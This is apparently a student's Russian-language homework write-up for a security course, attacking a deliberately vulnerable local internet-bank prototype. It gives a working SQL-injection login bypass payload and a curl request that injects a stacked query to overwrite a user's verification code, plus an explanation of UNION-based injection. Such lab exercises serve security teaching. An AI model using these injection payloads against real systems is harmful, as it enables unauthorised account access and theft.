




# Домашнее задание к занятию «1.3. SQL и транзакции»

## Описание

Разработчики подготовили прототип будущей системы интернет-банка.

Для запуска нужно скачать файлы из каталога `assets`:
* [`docker-compose.yml`](./assets/docker-compose.yml);
* [`docker-entrypoint-initdb.d/init.sql`](./assets/docker-entrypoint-initdb.d/init.sql).

После скачивания структура на вашем диске должна иметь вид:
* файл `docker-compose.yml`;
* каталог `docker-entrypoint-initdb.d`;
    * файл `init.sql`.
    
Для запуска используйте команду `docker-compose up`.

Для остановки и удаления контейнеров используйте `docker-compose down`.

## Задание «Логин и пароль»

### Этапы выполнения

Фронтенд сервиса работает на порту 8888:

Используя ваши знания об SQL Injection, подберите входные данные так, чтобы попасть на следующий экран с подтверждением кода без знания пароля, при этом вы при помощи методов социальной инженерии узнали, что в системе существует пользователь с логином `sasha`.

Примечание*. Конечно, вы можете подсмотреть хеш пароля в БД, но пароль ещё придётся подобрать.

### Результаты выполнения задания

В качестве результата пришлите входные данные, которые позволяют пройти на следующий экран без знания пароля пользователя.

## Ответ
В поле "Логин" вводим: `' or true -- ;` \
В поле "Пароль" вводим любой набор символов, например `1`

## Код подтверждения*

**Важно**. Это необязательное задание. Его выполнение не влияет на получение зачёта по домашней работе.

### Описание

### `UNION`

В SQL есть специальная конструкция `UNION`, которая позволяет объединить данные нескольких запросов.

Пример:
```sql
SELECT login, password FROM users
UNION
SELECT number, status FROM cards
```

Сложит в результаты запроса данные из двух таблиц:
| login | password |
| --- | ----------- |
| sasha | ... |
| masha | ... |
| 5559 0000 0000 0001 | ... |
| 5559 0000 0000 0002 | ... |

Этот пример позволяет добавить к данным, легитимно выбираемым приложением, произвольные по нашему усмотрению, если мы можем дописать часть с `UNION`.

Ключевые моменты:
1. Количество полей и их типы должны совпадать в обоих `SELECT`. Для преобразования типов существуют специальные выражения или функции, например для [PostgreSQL](https://postgrespro.ru/docs/postgresql/13/typeconv).
2. Если первый `SELECT` ничего не вернёт, например, потому что в нём будет условие `WHERE`, которому не соответствует ни одна строка, то останутся только строки, полученные из второго `SELECT`.

Также нужно указать и на то, что `SELECT` не обязательно должен выбирать данные из таблицы. Например, запрос вида `SELECT 'vasya', 'active'` вполне легитимный. Он возвращает строку, в которой всего два столбца со значениями `vasya` и `active` соответственно.

### Результаты выполнения задания

В качестве результата пришлите сURL-запрос, который позволяет получить токен доступа без знания кода верификации.

## Ответ
\
Не вполне уверен, что выполнил задание верно, но мне удалось попасть внутрь приложения, не зная изначально код. Хотел бы узнать, какую конструкцию с `UNION` можно использовать, чтобы получить результат.

Во-первых, получить доступ внутрь приложения можно просто изучив логи контейнера при входе. `assets-db-1        | 2023-06-11 13:28:00.945 UTC [329] LOG:  statement: INSERT INTO codes (login, code) VALUES ('sasha', '39bf') ON CONFLICT (login) DO UPDATE SET code = '39bf', tries = 0`. Тут мы видим, что полю код присваивается значение `39bf`, причем при каждой попытке логина, код перезаписывается.

Во-вторых, рассмотрим ситуациюб когда мы не видим логи и не знаем код. \
Скопировав cURL из браузера, при неверной аутентификации, мы можем изменить cURL запрос к приложению, экранировав поле с запросом `WHERE` кавычкой и поставив `;`, а после добавляем запрос, который перезапишет значение `code`, которое соответствует известному нам по условию пользователю `sasha` на тот, который нужен нам. В примере это код `8888`, но по факту можно выставить любой.

```text
curl 'http://localhost:8888/api/auth/verification' \
  -H 'Content-Type: application/json' \
  --data-raw $'{"login":"sasha\'; INSERT INTO codes (login, code) VALUES (\'sasha\', \'8888\') ON CONFLICT (login) DO UPDATE SET code = \'8888","code":"8888"}' \
  ```

Сервер возвращает нам ошибку, но данные в бд уже перезаписаны, и введя в браузере код `8888` попадаем внутрь приложения и видим карты и балансы.
